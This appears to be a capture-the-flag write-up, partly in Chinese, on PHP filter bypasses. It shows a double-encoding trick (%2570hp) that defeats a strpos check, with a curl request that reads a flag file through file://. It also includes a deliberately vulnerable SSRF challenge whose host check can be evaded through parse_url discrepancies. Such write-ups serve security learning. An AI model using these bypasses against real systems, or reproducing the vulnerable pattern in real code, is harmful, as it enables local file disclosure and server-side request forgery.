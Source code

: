 > bypass strpos verification: The bug is more related to when we send a string with encode to the strpos(), when we sent a string with double encode we were able to bypass the verification, using %2570hp if the case is like strpos($string, "php").

```bash
curl http://120.78.164.84:49017/bug76671/?x=file:///var/www/html/bug76671/flag.ph%2570

<?php
//$flag={1234364575869979780};
```

- 例2

```php
<?php

/*
 * I stored flag.txt at baidu.com
 */

show_source(__FILE__);

if(isset($_GET['url'])){
    $url = parse_url($_GET['url']);
    if(!$url){
        die('Can not parse url: '.$_GET['url']);
    }
    if(substr($_GET['url'], strlen('http://'), strlen('baidu.com')) === 'baidu.com'){
        die('Hey, papi, you have to bypass this!');
    }
    if(
        $url['host'] === 'baidu.com'
    ){
        $ch = curl_init();
        curl_setopt ($ch, CURLOPT_URL, $_GET['url']);
        curl_exec($ch);
        curl_close($ch);
    }else{
        die('Save it, hacker!');
    }
}
```

1.`substr($_GET['url'], strlen('http://'), strlen('baidu.com')) === 'baidu.com')`:判断url\[7:15\] == `baidu.com`.

2.`$url['host']== 'baidu'`:`parse_url`处理后的host为`baidu.com`.

==> url\[7:15\]!=baidu.com && url\['host'\]==baidu.com(parse_url)
